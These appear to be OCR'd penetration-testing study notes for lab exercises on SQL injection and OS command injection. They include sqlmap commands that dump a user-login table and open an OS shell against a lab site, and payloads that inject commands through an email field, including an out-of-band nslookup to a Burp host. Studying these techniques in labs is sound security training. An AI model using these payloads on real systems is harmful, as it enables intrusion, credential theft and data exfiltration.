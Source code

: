 - --tables: Enumerate DBMS database tables
- Get a list of tables
- Select a column
- sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope –T User\_Login --dump
- Get table data of this column
- sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --os- shell
- Get the OS Shell
- TASKLIST

• 

- Blind SQL:
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://portswigger.net/web-security/sql-injection/blind
- Don't Show any Error on screen

• 

- Cookie Vulnerable to Blind sql,
- on successful execution shows "Welcome back" on the screen
- On unsuccessful execution dont show "Welcome back" on the screen

• 

- Blind sql injection with conditional reponses   (password cracking)
- Blind sql injection with time delay(for synchronous)
- Blind sql injection with out-of-band interaction
- Blind sql injection with out-of-band data exfiltration
- -------------------------------------------------------------------
- OS Command Injection(Do portswigger labs):

• 

- https://portswigger.net/web-security/os-command-injection
- simple case:look for url parameters./ request body parameters
- commands can be: echo,ipconfig,uname -a 
- | echo anything |
- & echo anything &
- || echo anything ||
- | echo anything 
- & echo anything 

• 

- Blind OS Command Injection:
- injecting points can be: feedback form,request body parameters
- email parameter=anything@gmail.com || ping+127.0.0.1+-c+20 ||   (20 milli sec) • 
- Blind OS Command Injection with output redirection:
- injecting points can be: feedback form,
- email parameter=anything@gmail.com || echo abcd > /var/www/images/file.txt || • 
- Blind OS Command Injection with out-of-band interaction
- injecting points can be: feedback form,
- email parameter=anything@gmail.com || nslookup xyz.burp.net ||

• 
